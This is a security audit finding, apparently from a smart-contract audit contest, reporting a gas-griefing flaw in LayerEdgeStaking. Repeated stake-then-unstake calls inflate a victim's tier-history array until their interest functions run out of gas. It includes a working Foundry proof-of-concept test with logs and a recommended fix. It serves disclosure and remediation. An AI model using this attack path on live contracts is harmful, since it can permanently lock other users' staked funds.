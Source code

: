 Proper Citron Dachshund

High

# An attacker can significantly increase the size of the `stakerTierHistory` array.

### Summary

The ability to unstake immediately after staking allows the attacker to increase the size of the user's `stakerTierHistory` array.

### Root Cause

In `LayerEdgeStaking` a user can `unstake()` immediately after `stake()` because the check that the unstaking window is reached is in [`LayerEdgeStaking:763`](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L763), and it is only performed when `completeUnstake()` is called.

At the moment when the increase of `stakerCountInTree` results in some user (the victim user) being promoted from one Tier to another, the attacker can `stake(minStakeAmount)` and then immediately `unstake()` at least 1 wei. So, the attacker first enters the Tree and Tier 3, which results in the victim user being promoted, and then exits the Tree but remains in Tier 3, and the length of the victim user's `stakerTierHistory` array increases by 2 elements. This action can be repeated by the attacker many times.

### Internal Pre-conditions

None

### External Pre-conditions

None

### Attack Path

1. The attacker can wait until the value of `stakerCountInTree` is such that adding one user to the tree will result in the victim user being promoted to Tier 2 or Tier 1 or enter the tree the required number of times.
2. Attacker calls `stake` function with amount = `minStakeAmount` (enters the Tree and increases `stakerCountInTree`).
3. Attacker calls `unstake` function with amount = `1 wei` (exits the Tree and decreases `stakerCountInTree`).
4. Attacker repeats step 1 and 2 (from different addresses).

### Impact

Increasing the size of the user's `stakerTierHistory` array causes the number of iterations in the loop in the `calculateUnclaimedInterest` function to increase. This leads to at least an increase in the cost of calling the functions `compoundInterest()`, `stake()`, `unstake()` and `claimInterest()`, but can also lead to the complete blocking of the user's ability to call these functions due to Out of Gas error. If affected users are unable to call the listed functions, they will lose all staked assets and earned rewards, and there is no other way to withdraw them (as well as to decrease the `stakerTierHistory` array). Moreover, for some values ​​of `stakerCountInTree`, the change in `stakerTierHistory` occurs not for one, but for three users at once.

### PoC
Paste in `LayerEdgeStakingTest.t.sol`:
```solidity
    function makeAddrAndStake(uint256 newStaker, uint256 amount) public returns (address staker) {
        staker = makeAddr(string(abi.encodePacked(newStaker)));
        // Distribute tokens to user
        vm.startPrank(admin);
        token.transfer(staker, amount);
        vm.stopPrank();
        //stake
        vm.startPrank(staker);
        token.approve(address(staking), amount);
        staking.stake(amount);
        vm.stopPrank();
    }

    function test_boostSomeStakerTierHistory() public {
        uint256 boostCount = 1000; // increase of `stakerTierHistoryLength` = boostCount * 2 
        uint256 n = 6; //amount of stakers before attack
        uint256 minAmount = staking.minStakeAmount();
        uint256 unstakeAmount = 1;
        address[] memory stakers = new address[](n + boostCount);
        address staker;
        // n users stake minStakeAmount
        for (uint256 i; i < n; i++) {
            staker = makeAddrAndStake(i + 1, minAmount);
            stakers[i] = staker;
        }
        uint256 victimIndex = 2;
        // in this example staker #3 (stakers[2]) is the victim
        // after next increase of `stakerCountInTree` staker n# will move to Tier2
        // initially stakerTierHistory.length should be = 1
        console2.log("Initial staker #3 stakerTierHistory.length = ", staking.stakerTierHistoryLength(stakers[victimIndex]));
        for (uint256 i; i < boostCount; i++) {
            staker = makeAddrAndStake(n + i + 1, minAmount);
            stakers[n - 1 + i] = staker;
            vm.startPrank(staker);
            staking.unstake(unstakeAmount);
            vm.stopPrank();
        }
        console2.log("After attack staker #3 stakerTierHistory.length = ", staking.stakerTierHistoryLength(stakers[victimIndex]));
    }
```
Logs:
```solidity
Logs:
  Initial staker #3 stakerTierHistory.length =  1
  After attack staker #3 stakerTierHistory.length =  2001
```

### Mitigation

It is recommended to check that unstaking window is reached in the `unstake` functon.